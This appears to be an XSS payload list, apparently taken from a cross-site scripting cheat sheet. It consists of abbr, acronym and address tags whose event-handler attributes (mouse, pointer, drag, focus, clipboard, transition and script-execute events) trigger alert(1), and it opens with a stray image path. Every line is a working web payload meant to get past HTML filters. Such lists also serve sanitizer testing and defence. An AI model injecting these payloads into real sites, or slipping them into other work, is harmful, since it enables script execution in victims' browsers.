 <abbr onmouseover="alert(1)" style=display:block>test</abbr>
<abbr onmouseup="alert(1)" style=display:block>test</abbr>
<abbr onmousewheel=alert(1) style=display:block>requires scrolling
<abbr onpaste="alert(1)" contenteditable>test</abbr>
<abbr onpointerdown=alert(1) style=display:block>XSS</abbr>
<abbr onpointerenter=alert(1) style=display:block>XSS</abbr>
<abbr onpointerleave=alert(1) style=display:block>XSS</abbr>
<abbr onpointermove=alert(1) style=display:block>XSS</abbr>
<abbr onpointerout=alert(1) style=display:block>XSS</abbr>
<abbr onpointerover=alert(1) style=display:block>XSS</abbr>
<abbr onpointerrawupdate=alert(1) style=display:block>XSS</abbr>
<abbr onpointerup=alert(1) style=display:block>XSS</abbr>
<acronym draggable="true" ondrag="alert(1)" style=display:block>test</acronym>
<acronym draggable="true" ondragend="alert(1)" style=display:block>test</acronym>
<acronym draggable="true" ondragenter="alert(1)" style=display:block>test</acronym>
<acronym draggable="true" ondragleave="alert(1)" style=display:block>test</acronym>
<acronym draggable="true" ondragstart="alert(1)" style=display:block>test</acronym>
<acronym id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></acronym>
<acronym id=x tabindex=1 onfocus=alert(1)></acronym>
<acronym id=x tabindex=1 onfocusin=alert(1)></acronym>
<acronym onafterscriptexecute=alert(1)><script>1</script>
<acronym onbeforecopy="alert(1)" contenteditable>test</acronym>
<acronym onbeforecut="alert(1)" contenteditable>test</acronym>
<acronym onbeforescriptexecute=alert(1)><script>1</script>
<acronym onblur=alert(1) id=x tabindex=1 style=display:block>test</acronym><input value=clickme>
<acronym onclick="alert(1)" style=display:block>test</acronym>
<acronym oncontextmenu="alert(1)" style=display:block>test</acronym>
<acronym oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<acronym oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<acronym ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</acronym>
<acronym onfocusout=alert(1) id=x tabindex=1 style=display:block>test</acronym><input value=clickme>
<acronym onkeydown="alert(1)" contenteditable style=display:block>test</acronym>
<acronym onkeypress="alert(1)" contenteditable style=display:block>test</acronym>
<acronym onkeyup="alert(1)" contenteditable style=display:block>test</acronym>
<acronym onmousedown="alert(1)" style=display:block>test</acronym>
<acronym onmouseenter="alert(1)" style=display:block>test</acronym>
<acronym onmouseleave="alert(1)" style=display:block>test</acronym>
<acronym onmousemove="alert(1)" style=display:block>test</acronym>
<acronym onmouseout="alert(1)" style=display:block>test</acronym>
<acronym onmouseover="alert(1)" style=display:block>test</acronym>
<acronym onmouseup="alert(1)" style=display:block>test</acronym>
<acronym onmousewheel=alert(1) style=display:block>requires scrolling
<acronym onpaste="alert(1)" contenteditable>test</acronym>
<acronym onpointerdown=alert(1) style=display:block>XSS</acronym>
<acronym onpointerenter=alert(1) style=display:block>XSS</acronym>
<acronym onpointerleave=alert(1) style=display:block>XSS</acronym>
<acronym onpointermove=alert(1) style=display:block>XSS</acronym>
<acronym onpointerout=alert(1) style=display:block>XSS</acronym>
<acronym onpointerover=alert(1) style=display:block>XSS</acronym>
<acronym onpointerrawupdate=alert(1) style=display:block>XSS</acronym>
<acronym onpointerup=alert(1) style=display:block>XSS</acronym>
<address draggable="true" ondrag="alert(1)" style=display:block>test</address>
<address draggable="true" ondragend="alert(1)" style=display:block>test</address>
<address draggable="true" ondragenter="alert(1)" style=display:block>test</address>
<address draggable="true" ondragleave="alert(1)" style=display:block>test</address>
<address draggable="true" ondragstart="alert(1)" style=display:block>test</address>
<address id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></address>
<address id=x tabindex=1 onfocus=alert(1)></address>
<address id=x tabindex=1 onfocusin=alert(1)></address>
<address onafterscriptexecute=alert(1)><script>1</script>
<address onbeforecopy="alert(1)" contenteditable>test</address>
<address onbeforecut="alert(1)" contenteditable>test</address>
<address onbeforescriptexecute=alert(1)><script>1</script>